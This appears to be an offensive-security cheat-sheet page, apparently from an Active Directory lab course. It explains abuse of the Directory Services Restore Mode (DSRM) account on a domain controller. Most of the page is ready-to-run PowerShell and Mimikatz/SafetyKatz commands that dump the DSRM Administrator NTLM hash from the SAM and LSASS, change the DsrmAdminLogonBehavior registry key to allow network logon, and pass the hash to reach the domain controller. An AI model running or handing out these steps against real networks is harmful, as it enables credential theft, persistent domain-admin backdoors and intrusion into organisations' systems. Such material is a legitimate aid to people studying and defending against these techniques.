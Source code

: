 # DSRM

Directory Services Restore Mode (DSRM) is a Safe Mode boot option for Windows Server domain controllers and the main purpose of DSRM is to help system admins log in to the system to restore or repair an AD database.\
\
Every Domain controller has local administrator account called "Administrator" and his password is the DSRM password.

## Dump DSRM NTLM hash

{% hint style="info" %}
Require Domain Admin privileges
{% endhint %}

```powershell
# dumping from sam - DSRM local Administrator hash
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' 
# Or with SafetyKatz cmd
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "token::elevate" "lsadump::evasive-sam" "exit"
```

```powershell
# dumping from lsass - Administrator hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```

## Change Logon Behavior

In order to use DSRM account hash we need to change his registry key

```powershell
# Entering DC session
Enter-PSSession -ComputerName dcorp-dc

# Check if key exists
Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior'

# If exists set his value to 2
Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior' -Value 2 -Verbose
# OR With CMD
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f

# If does not exist create it and set his value to 2
New-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior' -Value 2 -PropertyType DWORD -Verbose
```

## Passing the hash

<pre class="language-powershell"><code class="lang-powershell"># /domain - the domain controller
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator
/ntlm:a102ad5753f4c441e3af31c97fad86fd 
/run:powershell.exe"'
# OR with SafetyKatz
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:&#x3C;DSRM_NTML> /run:cmd.exe" "exit"
<strong>
</strong><strong># Set the DC IP in trust list.
</strong>Set-Item WSman:\localhost\Client\TrustedHosts &#x3C;DC-IP>
# Check if worked
ls \\dcorp-dc\C$
Enter-PSSession -ComputerName &#x3C;DC-IP> -Authentication NegotiateImplictCredential
</code></pre>

Use `$env:username` to get the logged in username.
